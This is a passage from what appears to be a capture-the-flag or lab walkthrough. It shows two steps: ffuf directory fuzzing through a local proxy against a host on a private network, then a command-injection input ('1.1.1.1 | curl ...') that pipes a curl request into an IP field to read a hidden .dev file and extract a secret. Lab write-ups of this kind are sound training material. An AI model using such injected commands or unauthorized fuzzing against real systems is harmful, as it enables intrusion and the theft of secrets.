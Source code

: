 12. Set up the ffuf utility to use a proxy and use it to discover files on a remote web server with IP 172.22.0.2 on the local network:
```bahs
$ http_proxy=127.0.0.1:1338 ffuf -w ~/Downloads/fuzz.txt -u http://172.22.0.2/FUZZ -fc 403
```
13. Get the dev file, read it with curl and get the secret:
```
> 1.1.1.1 | curl 172.22.0.2/.dev
```
![Screenshot](11.3/Screenshot1.png)
![Screenshot](11.3/Screenshot2.png)